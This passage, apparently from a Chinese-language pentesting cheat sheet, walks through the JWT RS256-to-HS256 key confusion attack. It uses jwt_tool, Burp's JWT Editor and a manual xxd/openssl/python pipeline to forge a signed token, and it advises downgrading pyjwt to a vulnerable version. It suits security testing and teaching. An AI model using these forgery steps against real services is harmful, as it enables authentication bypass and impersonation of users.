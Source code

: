 :warning: 在 Python 库中这种行为已修复，并将返回此错误 `jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.`。需要安装以下版本：`pip install pyjwt==0.4.3`。

- 使用 [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

    ```ps1
    python3 jwt_tool.py JWT_HERE -X k -pk my_public.pem
    ```

- 使用 [portswigger/JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)
    1. 查找公钥，通常在 `/jwks.json` 或 `/.well-known/jwks.json` 中
    2. 在 JWT Editor 的 Keys 标签页加载它，点击 `New RSA Key`。
    3. 在对话框中粘贴之前获得的 JWK：`{"kty":"RSA","e":"AQAB","use":"sig","kid":"961a...85ce","alg":"RS256","n":"16aflvW6...UGLQ"}`
    4. 选择 PEM 单选按钮并复制生成的 PEM 密钥。
    5. 返回到 Decoder 标签页并 Base64 编码 PEM。
    6. 返回到 JWT Editor 的 Keys 标签页并生成一个 JWK 格式的 `New Symmetric Key`。
    7. 将生成的 k 参数值替换为您刚刚复制的 Base64 编码的 PEM 密钥。
    8. 编辑 JWT 令牌的 alg 为 `HS256` 并编辑数据。
    9. 点击 `Sign` 并保持选项：`Don't modify header`

- 手动使用以下步骤将 RS256 JWT 令牌编辑为 HS256
    1. 使用以下命令将我们的公钥（key.pem）转换为十六进制。

        ```powershell
        $ cat key.pem | xxd -p | tr -d "\\n"
        2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a
        ```

    2. 使用我们的公钥作为 ASCII 十六进制并使用我们之前编辑的令牌生成 HMAC 签名。

        ```powershell
        $ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ" | openssl dgst -sha256 -mac HMAC -macopt hexkey:2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a

        (stdin)= 8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0
        ```

    3. 将签名从十六进制转换为“Base64 URL”

        ```powershell
        python2 -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0')).replace('=','')\")"
        ```

    4. 将签名添加到编辑后的有效载荷中

        ```powershell
        [头部编辑为 RS256 到 HS256].[数据编辑].[签名]
        eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ.j0IbNR62H_Im34jVJqfpubt7gjlojB-GLyYaDFiJEOA
        ```

### JWT 签名 - 密钥注入攻击（CVE-2018-0114）
